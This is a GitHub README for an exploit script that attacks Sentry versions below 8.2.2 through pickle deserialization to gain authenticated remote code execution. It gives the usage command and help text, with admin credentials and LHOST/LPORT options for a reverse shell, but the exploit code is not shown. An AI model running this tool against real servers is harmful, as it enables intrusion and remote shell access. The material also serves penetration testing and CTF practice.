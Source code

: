 # Sentry-Authenticated-Remote-Code-Execution
## Sentry &lt; 8.2.2 Pickle Deserialization to RCE

<h4> Discovered By : Clement Berthaux (SYNACKTIV) </h4>
<h4> Exploit Authored By : Mohin Paramasivam (Shad0wQu35t)
<h4> HTB Profile : https://app.hackthebox.eu/profile/16731 </h4>
<h4> Advisory Link : https://doc.lagout.org/Others/synacktiv_advisory_sentry_pickle.pdf </h4>
<h4> Exploit DB Link :  </h4>

<h4> Usage : python exploit.py --url `http://puturhostnamehere/auth/login/sentry/` -U `username` -P `password` -l `LHOST` -p `LPORT`</h4>
  

usage: exploit.py [-h] [-U U] [-P P] [-l L] [-p P] [--url URL]

Sentry < 8.2.2 Authenticated RCE

<p>              
optional arguments:
  -h, --help  show this help message and exit
  -U U        Sentry Admin Username / Email
  -P P        Sentry Admin Password
  -l L        Rev Shell LHOST
  -p P        Rev Shell LPORT
  --url URL   Sentry Login URL
<p>            
              
![alt text](https://github.com/mohinparamasivam/Sentry-Authenticated-Remote-Code-Execution/blob/main/sentry_exploit.png?raw=true)              
              


# Dependencies

<h4>pip install requests</h4>
<h4>pip install bs4</h4>
<h4>pip install argparse</h4>

